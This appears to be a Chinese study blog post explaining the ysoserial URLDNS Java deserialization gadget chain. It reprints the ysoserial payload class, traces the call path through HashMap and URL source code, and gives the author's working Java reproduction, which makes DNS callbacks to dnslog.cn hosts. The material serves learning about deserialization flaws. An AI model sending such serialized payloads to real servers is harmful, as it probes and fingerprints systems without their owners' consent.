







# 前言

经过前期的铺垫，终于要开始了Java反序列化链的学习。

按照P神的说法，还是别那么急就从CC链入手，先从这个简单的`URLDNS`学起，之后再学习CC链。

因为是第一次接触Java的反序列化，可能思路和想法之类的可能有不对的地方，也正常叭，就像我看着自己一开始写的文章一样，很多地方理解也都不太对，经过慢慢的学习就会慢慢进步的。


# ysoserial的URLDNS

下载链接：

https://github.com/frohoff/ysoserial




我对于使用也是没太懂，不过现在还是学习嘛。原来pom.xml里面都写了入口类：



但是不管这些，还是把学习的重点放在`URLDNS`上来。


看一下代码：

```java
package ysoserial.payloads;

import java.io.IOException;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 * A blog post with more details about this gadget chain is at the url below:
 *   https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/
 *
 *   This was inspired by  Philippe Arteau @h3xstream, who wrote a blog
 *   posting describing how he modified the Java Commons Collections gadget
 *   in ysoserial to open a URL. This takes the same idea, but eliminates
 *   the dependency on Commons Collections and does a DNS lookup with just
 *   standard JDK classes.
 *
 *   The Java URL class has an interesting property on its equals and
 *   hashCode methods. The URL class will, as a side effect, do a DNS lookup
 *   during a comparison (either equals or hashCode).
 *
 *   As part of deserialization, HashMap calls hashCode on each key that it
 *   deserializes, so using a Java URL object as a serialized key allows
 *   it to trigger a DNS lookup.
 *
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
 *
 *
 */
@SuppressWarnings({ "rawtypes", "unchecked" })
@PayloadTest(skip = "true")
@Dependencies()
@Authors({ Authors.GEBL })
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}

```

虽然中间有很多的流程不太懂，但是大致的过程还是能看懂一点的。

`main`方法的`args`是传入的参数，然后在`run`方法中先生成序列化对象，然后再反序列化。

先看一下结果叭，参数的传递这样设：




这里我用的是dnslog的。然后运行main方法（这里我没按照这个工具正常的用法来，主要也是为了单纯的，只看`URLDNS`这一块）。






成功触发。

# URLDNS链分析

现在来分析一下这个`URLDNS`链，流程相对来说确实比较简单，适合入门学习。

这个链反序列化的对象是`HashMap`的对象。反序列化`HashMap`的时候会用到这个类自定义的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

注意到最后的`putVal(hash(key), key, value, false, false);`，调用了`hash`函数计算哈希值。

插一个小问题，就是JDK版本的问题。通过上面的配置可以看到我用的是JDK1.8，实际上我一开始在`ysoserial`上用的是JDK1.7-7U17，通过测试发现也可以触发成功，但是最下面的代码是这样的：

```java
        for (int i=0; i<mappings; i++) {
            K key = (K) s.readObject();
            V value = (V) s.readObject();
            putForCreate(key, value);
        }
```

为了和学习的文章里的一样，就换成了`JDK1.8`。


跟进`hash`函数：

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

调用了键的`hashCode`函数。可以发现ysoserial用的键是URL类：

```java
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
```

跟进看一下`URL`类的`hashCode`函数：

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

如果`hashCode==-1`的话，就会重新计算`hashCode`，调用`handler`的`hashCode()`。看一下`handler`：

```java
    transient URLStreamHandler handler;
```

`handler`属性是`URLStreamHandler`类的对象，所以继续跟进`URLStreamHandler`类的`hashCode()`方法：

```java
    protected int hashCode(URL u) {
        int h = 0;

        // Generate the protocol part.
        String protocol = u.getProtocol();
        if (protocol != null)
            h += protocol.hashCode();

        // Generate the host part.
        InetAddress addr = getHostAddress(u);
```

跟进到最下面的`getHostAddress()`：

```java
    protected synchronized InetAddress getHostAddress(URL u) {
        if (u.hostAddress != null)
            return u.hostAddress;

        String host = u.getHost();
        if (host == null || host.equals("")) {
            return null;
        } else {
            try {
                u.hostAddress = InetAddress.getByName(host);
```

在最后调用了`getByName`方法，这⾥ `InetAddress.getByName(host) `的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次 DNS查询。


因此整个`Gadget`就比较清晰了：

1. `HashMap->readObject()`
2. `HashMap->hash()`
3. `URL->hachCode()`
4. `URLStreamHandler->hachCode`()
5. `URLStreamHandler->getHostAddress()`
6. `InetAddress.getByName()`


# 利用（触发）

实际上，这个的触发还是很离谱的。个人认为实际上的入口就是`HashMap`的`hash()`方法。在`HashMap`类里面看一下，`hash()`方法一般都是以类似这样的形式被调用：

```java
putVal(hash(key), key, value, false, evict);
```


一个很奇妙的点就在于，`HashMap`里面最常用的`put`方法里面居然就有：

```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

因此简单来说，抛去反序列化的话，简单的用一次`put`都会触发一次`URLDNS`，写段代码测试一下：

```java
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws MalformedURLException {
        HashMap ht = new HashMap();
        String url = "http://sckuk4.dnslog.cn/";
        URL u = new URL(url);
        ht.put(u,url);
    }
}
```




再看看`Ysoserial`里面的`URLDNS`，多了这些：

```java
                URLStreamHandler handler = new SilentURLStreamHandler();
                URL u = new URL(null, url, handler); // URL to use as the Key

        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }

                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
```


根据调用链，最后面会调用`handler`的`getHostAddress`方法。为了不让在`put`的时候就触发了`URLDNS`，`Ysoserial`自己写了一个类继承`URLStreamHandler`，然后重写了`getHostAddress()`方法，防止了`put`时候的触发。

因此我们也自己写一个试试：

```java


import java.io.IOException;
import java.net.*;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws MalformedURLException {
        HashMap ht = new HashMap();
        String url = "http://amam4v.dnslog.cn/";
        URLStreamHandler handler = new TestURLStreamHandler();
        URL u = new URL(null,url,handler);
        ht.put(u,url);
    }
}

class TestURLStreamHandler extends URLStreamHandler {
    @Override
    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }
    @Override
    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}

```

果然不会再触发了：




接下来就写序列化和反序列化了。先考虑一下需要注意的细节。整个Gadget可以实现，需要的条件说白了就是这个：

**那个`key`，即`URL`类的对象的`hashCode`属性值为-1**

考虑到最开始调用`put()`，虽然没有触发`URLDNS`，但是同样调用了`hash()`，导致了传入的`URL`类对象的哈希值被计算了一次，`hashCode`不再是`-1`了，因此还需要再修改它的`hashCode`属性。但是注意这个属性是`private`：

```java
    private int hashCode = -1;
```

因此只能用反射：

```java
        //Reflection
        Class clazz = Class.forName("java.net.URL");
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u,-1);
```


整体的代码：

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.*;
import java.util.HashMap;

public class URLDNS {
    public static void main(String[] args) throws Exception {
        HashMap ht = new HashMap();
        String url = "http://urld86.dnslog.cn/";
        URLStreamHandler handler = new TestURLStreamHandler();
        URL u = new URL(null,url,handler);
        ht.put(u,url);

        //Reflection
        Class clazz = Class.forName("java.net.URL");
        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u,-1);

        byte[] bytes = serialize(ht);
        unserialize(bytes);

    }
    public static byte[] serialize(Object o) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(bout);
        oout.writeObject(o);
        byte[] bytes = bout.toByteArray();
        oout.close();
        bout.close();
        return bytes;
    }
    public static Object unserialize(byte[] bytes) throws Exception{
        ByteArrayInputStream bin = new ByteArrayInputStream(bytes);
        ObjectInputStream oin = new ObjectInputStream(bin);
        return oin.readObject();
    }
}

class TestURLStreamHandler extends URLStreamHandler {
    @Override
    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }
    @Override
    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}

```

# 细节上的疑惑

在一开始跟这个链的时候，最大的疑惑就是那个`handler`：

```java
transient URLStreamHandler handler;
```

可以发现这是一个`transient`（瞬态）属性，瞬态属性是不会被序列化的，因此我们传入的`handler`反序列化之后不就是null了吗？


但是首先的疑惑是，我一开始这样写：

```java
        String url = "http://sckuk4.dnslog.cn/";
        URL u = new URL(url);
```

没有传`handler`，为什么不为null。

跟一下源码就可以知道，URL类的初始化是构造器一步一步来的：

```java
    public URL(String spec) throws MalformedURLException {
        this(null, spec);
    }
    public URL(URL context, String spec) throws MalformedURLException {
        this(context, spec, null);
    }
    public URL(URL context, String spec, URLStreamHandler handler)
        throws MalformedURLException
    {
```

最终其实相当于调用的是`new URL(null,url,null)`。在这个构造器中的这里，通过`getURLStreamHandler()`方法返回了一个`URLStreamHandler`，因此`handler`不为null：

```java
            if (handler == null &&
                (handler = getURLStreamHandler(protocol)) == null) {
                throw new MalformedURLException("unknown protocol: "+protocol);
            }

            this.handler = handler;
```


而在反序列化的时候，`handler`为瞬态属实，本来反序列化之后为null，但是`URL`有一个`readObject`：

```java
    private synchronized void readObject(java.io.ObjectInputStream s)
            throws IOException, ClassNotFoundException {
        GetField gf = s.readFields();
        String protocol = (String)gf.get("protocol", null);
        if (getURLStreamHandler(protocol) == null) {
            throw new IOException("unknown protocol: " + protocol);
        }
        String host = (String)gf.get("host", null);
        int port = gf.get("port", -1);
        String authority = (String)gf.get("authority", null);
        String file = (String)gf.get("file", null);
        String ref = (String)gf.get("ref", null);
        int hashCode = gf.get("hashCode", -1);
        if (authority == null
                && ((host != null && host.length() > 0) || port != -1)) {
            if (host == null)
                host = "";
            authority = (port == -1) ? host : host + ":" + port;
        }
        tempState = new UrlDeserializedState(protocol, host, port, authority,
               file, ref, hashCode);
    }
```

设置了`tempState`属性，然后发现`URL`还有一个`readResolve()`方法：

> 对于Serializable and Externalizable classes，方法readResolve允许class在反序列化返回对象前替换、解析在流中读出来的对象。实现readResolve方法，一个class可以直接控制反序化返回的类型和对象引用。


> 从流中读取实例时需要指定替换的类应该使用精确签名实现此特殊方法。
>
> ```java
>   ANY-ACCESS-MODIFIER Object readResolve() throws ObjectStreamException; 
> ```
>
> 此readResolve方法遵循与writeReplace相同的调用规则和可访问性规则。


```java
   private Object readResolve() throws ObjectStreamException {

        URLStreamHandler handler = null;
        // already been checked in readObject
        handler = getURLStreamHandler(tempState.getProtocol());

        URL replacementURL = null;
        if (isBuiltinStreamHandler(handler.getClass().getName())) {
            replacementURL = fabricateNewURL();
        } else {
            replacementURL = setDeserializedFields(handler);
        }
        return replacementURL;
    }
```

同样的`handler = getURLStreamHandler(tempState.getProtocol());`，然后进入`replacementURL = setDeserializedFields(handler);`。

`setDeserializedFields`方法实现了替换，我们只需要知道这一行即可：

```java
this.handler = handler;
```

因此反序列化后的`handler`也不为null。

而且而且而且，最关键的就是，一开始传的`handler`是我们写的类的实例：

```java
URLStreamHandler handler = new TestURLStreamHandler();
```

它的`getHostAddress`无法实现`URLDNS`。但是反序列化之后得到的`handler`是`URLStreamHandler`的对象了，因此可以实现`URLDNS`。


# 总结

很简单的`URLDNS`链，学习到了很多的东西，加油加油。

# 参考链接

P神的《Java安全漫谈 - 08.反序列化篇(2)》

https://y4tacker.blog.csdn.net/article/details/117235572

https://www.freebuf.com/articles/web/275842.html

https://zhuanlan.zhihu.com/p/149416105


